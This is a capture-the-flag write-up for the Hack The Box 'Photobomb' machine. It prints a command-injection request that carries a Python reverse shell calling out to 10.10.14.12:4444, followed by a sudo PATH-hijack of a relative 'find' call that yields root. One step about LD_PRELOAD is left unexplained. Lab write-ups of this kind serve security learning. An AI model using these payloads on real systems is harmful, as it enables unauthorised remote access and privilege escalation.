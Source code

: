 ```yaml
---
title: Photobomb Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


In the source code of the page the src= points to a .js file from where we get the link to access the next page.

If we download an image and intercept the request through your bursuite 

```sql
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

We can see as if modifying the format jpg/png the page gives error, because it processes in the backend this request to see if format = jpg | format = png, reason why it is possible to put a reverse shell by this means.

we put the reverse shell but PRESERVING THE DOWNLOAD FORMAT

```sql
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png%26python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs. connect(("10.10.14.12",4444))%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("sh")'&dimensions=1000x100x0
```

And as LD_PRELOAD can be executed as root, then we put it in the .c file to become root.

On the other hand

```shell
/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ] && !
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} {};
```

we can see that it uses find relatively and not the absolute path.

We can take advantage of the fact that we can change variables such as the path to take a custom find command, and under the sudo context our find will run as root

For this we will create a bash-valid find file and give it execution permissions

```shell
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find 
wizard@photobomb:~$ chmod +x find
```

Now changing the path variable we run the script and get root

```shell
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:~# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:~# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:240a 
```

